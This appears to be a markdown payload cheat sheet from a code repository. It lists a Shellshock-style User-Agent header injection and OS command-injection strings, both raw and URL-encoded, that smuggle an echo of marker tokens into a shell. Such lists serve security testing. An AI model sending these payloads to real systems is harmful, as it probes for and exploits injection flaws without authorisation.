 Header Injection
=========================
```
User-Agent: () { :;}; /bin/sleep 0
```

OS Command Injection
=========================
Echo
-------
```
|echo dadzo62ztj 01lnotnbq8||a #' |echo dadzo62ztj 01lnotnbq8||a #|" |echo dadzo62ztj 01lnotnbq8||a #
%7cecho%20dadzo62ztj%2001lnotnbq8%7c%7ca%20%23'%20%7cecho%20dadzo62ztj%2001lnotnbq8%7c%7ca%20%23%7c%22%20%7cecho%20dadzo62ztj%2001lnotnbq8%7c%7ca%20%23
```
